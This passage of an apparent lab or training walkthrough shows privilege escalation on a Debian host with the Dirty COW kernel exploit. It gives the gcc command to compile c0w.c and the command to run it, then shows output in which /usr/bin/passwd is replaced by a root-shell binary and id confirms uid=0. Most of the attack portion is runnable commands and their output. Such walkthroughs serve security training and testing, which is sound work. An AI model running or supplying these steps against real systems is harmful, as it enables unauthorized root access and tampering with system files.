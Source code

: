 **Explanation:**  
This exploit works by taking advantage of a race condition that allows an unprivileged user to write to read-only memory, thereby replacing a critical system file like `/usr/bin/passwd` with a malicious version that grants root access.

**2. Compile the Exploit Code:**

Compile the Dirty COW exploit using GCC:

```bash
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
```

**Explanation:**  
The `-pthread` option links the program with the POSIX thread library, which is necessary for the exploit to function correctly.

**3. Execute the Exploit:**

Run the compiled exploit:

```bash
./c0w
```

**Sample Output:**

```bash
   (___)                                   
   (o o)_____/                             
    @@ `     \                            
     \ ____, //usr/bin/passwd                          
     //    //                              
    ^^    ^^                               
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap cc600000

madvise 0

ptrace 0
```

**Explanation:**  
The exploit replaces `/usr/bin/passwd` with a version that spawns a root shell. The original `passwd` binary is backed up to `/tmp/bak`. The exploit might take a few minutes to complete due to the nature of the vulnerability.

**4. Gain Root Access:**

Once the exploit completes, running the `passwd` command will now spawn a root shell:

```bash
/usr/bin/passwd
```

**Sample Output:**

```bash
root@debian:/home/user# id
uid=0(root) gid=1000(user) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```
